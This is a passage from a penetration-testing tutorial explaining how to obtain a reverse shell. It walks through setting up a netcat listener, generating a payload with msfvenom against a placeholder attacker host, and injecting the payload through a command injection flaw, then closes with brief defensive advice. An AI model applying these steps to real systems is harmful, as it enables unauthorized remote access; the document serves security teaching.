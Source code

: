2. **Generate Payload**:
   - Generate a reverse shell payload that will be executed on the target system and establish a connection back to your attacker machine.
   - Depending on the target system's operating system and available tools, you can use tools like msfvenom (from Metasploit), shellshock, or custom scripts to generate the payload.

3. **Execute Payload**:
   - Execute the generated payload on the target system to initiate the reverse shell connection back to your attacker machine.
   - This can be done by uploading and running the payload on the target system using various techniques like uploading through a web application, exploiting vulnerabilities like command injection, or social engineering.

4. **Gain Control**:
   - Once the payload is executed on the target system, it establishes a connection back to your attacker machine, spawning a shell session.
   - You will now have interactive access to the target system's shell, allowing you to execute commands, upload/download files, and perform other activities.

### Practical Life Example:

Suppose you've identified a command injection vulnerability in a web application and want to gain remote access to the target system using a reverse shell. Here's how you can achieve this:

1. **Setup Listener**:
   - On your attacker machine, set up a listener on a specific port using Netcat:
     ```
     nc -lvnp <port>
     ```

2. **Generate Payload**:
   - Use msfvenom to generate a reverse shell payload for the target system:
     ```
     msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<attacker_port> -f <format> -o <output_file>
     ```

3. **Execute Payload**:
   - Inject the generated payload into the target system through the command injection vulnerability or any other means of execution.
   - Once the payload is executed on the target system, it establishes a connection back to your attacker machine.

4. **Gain Control**:
   - As soon as the reverse shell connection is established, you will receive a shell session on your attacker machine.
   - You now have interactive access to the target system's shell, allowing you to execute commands and perform various activities.

By using reverse shells, attackers can gain unauthorized access to systems and execute commands remotely. It is essential for defenders to implement proper security controls, such as input validation, command whitelisting, and network segmentation, to mitigate the risk of reverse shell attacks.

Stay tuned for the next lesson where we will explore another essential topic in network penetration testing: Buffer Overflow.
